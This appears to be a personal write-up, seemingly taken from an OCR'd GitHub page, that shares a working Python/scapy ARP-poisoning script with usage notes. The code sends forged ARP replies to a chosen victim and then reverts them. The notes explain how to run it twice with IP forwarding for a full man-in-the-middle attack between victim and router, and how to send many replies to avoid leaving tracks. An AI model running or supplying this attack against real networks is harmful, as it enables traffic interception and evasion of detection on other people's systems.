 ok, kinda long

---------

script code *arp_poison_loop_revert_6and7_version3.py*
```python
from scapy.all import conf,get_if_addr,get_if_hwaddr,ARP,Ether,sendp, sniff
import time
from multiprocessing import Process ,Queue
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("--target" , help= "Victim IP", required=True)
parser.add_argument("--spoof" , help="IP to Spoof" , required=True)
args = parser.parse_args()
#dont forget to enable for the love of god ip forwarding

iface = conf.iface
MyMAC = get_if_hwaddr(iface)
MyIP = get_if_addr(iface)

fake_mac = MyMAC

ip_victim = args.target
fake_ip = args.spoof
mac_victim = ""
mac_suplatation = ""
aux = ""   

def packet_handler(pkt):
    global mac_victim
    if ARP in pkt:
        if pkt[ARP].op == 2:
            if pkt[ARP].psrc == ip_victim and pkt[ARP].pdst == fake_ip:
                mac_victim = pkt[ARP].hwsrc
                return True
    return False

def sniffer(q):
    global fake_ip
    global ip_victim
    global aux
    global mac_suplatation
    global p1
    global p2
    sniff(filter = "arp", stop_filter  = packet_handler)
    if aux == ip_victim:
        frame = Ether(src = mac_victim, dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 2, psrc = ip_victim , pdst = "0.0.0.0" , hwsrc = mac_victim, hwdst = "ff:ff:ff:ff:ff:ff")
        sendp(frame,iface=iface, count = 15,inter = 1, verbose = 1) #to revert the metasploit or the suplantation ip we doing atm
        aux = fake_ip
        fake_ip = ip_victim
        ip_victim = aux
        frame = Ether(src = mac_victim, dst = mac_suplatation)/ARP(op = 2, psrc = fake_ip , pdst = ip_victim , hwsrc = mac_victim, hwdst = mac_suplatation)
        sendp(frame,iface=iface, count = 10 ,inter = 0.05, verbose = 1) #to revert the uibuntu or the victims arp
        print("DONE")
        p1.terminate()
        p2.terminate()
        
    else:  
        poison(fake_mac,MyMAC,fake_ip,ip_victim,q)


def poison (mac_fake,mac_real,ip_host,ip_vict,q):
    q.put(mac_victim)
    while True:
        frame = Ether(src = mac_fake, dst = mac_victim)/ARP(op = 2, psrc = ip_host , pdst = ip_vict , hwsrc = mac_fake, hwdst = mac_victim)
        sendp(frame,iface=iface, count = 1 ,inter = 1, verbose = 2)  

  
def potion( ):
    global aux 
    global fake_ip
    global ip_victim
    aux = fake_ip
    fake_ip = ip_victim
    ip_victim = aux
    
    q1 = Queue()
    p1 = Process(target=sniffer, args=(q1,))
    p2 = Process(target=trigger)
    p1.start()
    p2.start()


def trigger():
    global aux
    global fake_ip
    global ip_victim
    frame = Ether(src = MyMAC)/ARP(op = 1, psrc = fake_ip , pdst = ip_victim , hwsrc = MyMAC)
    sendp(frame,iface=iface, count = 1, verbose = 0)
    #p2.terminate()
    #p2.join()


try:
    q = Queue()
    p1 = Process(target=sniffer, args=(q,))
    p2 = Process(target=trigger)
    p1.start()
    p2.start()

    while True:
        time.sleep(0.2)
    
except KeyboardInterrupt:
    print("REVERTING ATTACK...WAIT...")  
    mac_suplatation = q.get()
    p1.terminate()
    p1.join()
    p2.terminate()
    p2.join()
    potion()
```

------------------

so some key points here

multithread processess must be termiante, closed and joined to the father thread they belong. on my case the main thread was the 
initial program. now dont forget to use while true before the keyboard interrupt becaseu if not the threat will be incorreclty 
closed and will output error, you must to properly close this

i used threads becase i needed to sniff the network at the same time i triggered the first request arp to the victim
and here is another revelation, tools liek arpspoof from dsniff wont work if the ip we trying to impersonate is not, i repeat, is not
previously saved on the arp table of the victim. is a , as this day, coutermeasuere to not accept replies from ips that where not
asked, and is common sense. 
and i know im doign more work as i needed to do , btu i wnated to paly a little and discover that if we send a planned request arp
like seting up the base, a trigger, after that any reply built on that request will be accepted
i know the router will always be saved so no sense, but what if we we would wnat to do this with another host o nthe network

key thing here is that we , when revertign the attack, we ask for the repli arp , after an arp request, and save the mac address, after that
we have the mac address of the victim and the host or dev we impersonating. we send multipel replies to those to not leave tracks.

i know my code could have some errors, but proud to be with this script. i must say that if you want to use this code, pelase do it on a 
controled environment since it tends sometimes to fail , so you must to be careful

also another thign i learned was that some older OSes wont cahnge the arp table on replies if they go too fast, hence the time (variable inter) for the replies each 1 sec and different for mthe last sendp which is 0.5 secs


almost forgot, enable ip forwarding so you became the middle man between your  victim and router, and you have to make a full duplex attack so run the program 2 times one for the victim and the other to the router.

the ip forward helps so the attacker becames a messenger and no interruption whatsoever and having internet as well of couser, becase if the request from the victim to a website dont get pass the attacker, then it will not reach the router and apparently no itnernet connection
